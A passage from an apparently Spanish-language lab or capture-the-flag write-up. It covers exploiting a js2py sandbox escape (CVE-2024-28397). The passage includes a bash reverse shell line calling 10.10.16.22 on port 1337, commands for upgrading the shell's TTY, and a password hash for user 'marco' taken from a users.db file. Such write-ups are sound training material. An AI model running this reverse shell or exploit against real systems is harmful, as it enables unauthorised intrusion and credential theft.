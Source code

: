 ```javascript
function f() {
    return n11
}
```

#### Reverse shell

Modifico un poco el `payload` para que ejecute una `reverse shell` y obtengo acceso como `app`.

```javascript
let cmd = "bash -c 'bash -i >& /dev/tcp/10.10.16.22/1337 0>&1'"
```

![Reverse shell](images/codeparttwo_reverse_shell.PNG)

[Marven CVE-2024-28397](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape)

#### Tratamiento de la TTY

```bash
script /dev/null -c bash
CTRL + Z
stty raw -echo; fg
reset xterm
export SHELL=bash
export TERM=xterm
stty rows 40 columns 184
```

### Post-Explotación

Al cononcer la estructura de directorios de la app, me paso la `users.db` para ver lo que tiene (`no existía ningún usuario admin` xd) y obtengo el usuario `marco` con el hash `649c9d65a206a75f5abe509fe128bce5`.
